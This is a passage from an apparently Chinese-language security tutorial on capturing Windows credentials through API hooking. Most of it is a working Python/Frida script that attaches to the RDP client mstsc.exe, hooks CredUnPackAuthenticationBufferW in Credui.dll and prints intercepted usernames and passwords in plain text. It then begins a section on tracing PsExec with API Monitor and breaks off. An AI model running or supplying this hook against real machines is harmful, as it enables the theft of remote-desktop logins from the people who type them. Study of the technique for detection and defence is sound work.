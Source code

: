 ```
    session = frida.attach("mstsc.exe")
    print("[+] Attached to mstsc!")

    # Executing the following javascript
    # We Listen to the CredUnPackAuthenticationBufferW func from Credui.dll to catch the username,password,domain and the executing     program in plain text.
    script = session.create_script("""
  
    var username;
    var password;
    var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")
  
    Interceptor.attach(CredUnPackAuthenticationBufferW, {
      onEnter: function (args) 
      {
  
        username = args[3];
        password = args[7];
      },
      onLeave: function (result)
      {
         
        var user = username.readUtf16String()
        var pass = password.readUtf16String()
  
        if (user && pass)
        {
          send("\\n+ Intercepted RDP Credentials\\n" + user + ":" + pass)
        }
      }
    });
  
    """)
    # If we got a hit then execute the "on_message_rdp" function
    script.on('message', on_message_rdp)
    script.load()
  except Exception as e:
    print(str(e))

if __name__ == "__main__":
  thread = Thread(target=WaitForRDP)
  thread.start()
```

执行上面的脚本，结果如下所示：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoibNWB8fqeCW0144KYISBLwoZMr0KI9cy4aQxONFTicnSdI5QrGeXHW9Q/640?wx_fmt=png)

**No.6 PsExec**

最后（但并非最不重要）要介绍的是 PsExec——来自 sysinternals 套件的远程执行工具。首先，让我们打开 API Monitor，然后，用正确的参数加载 PsExec，结果如下所示：
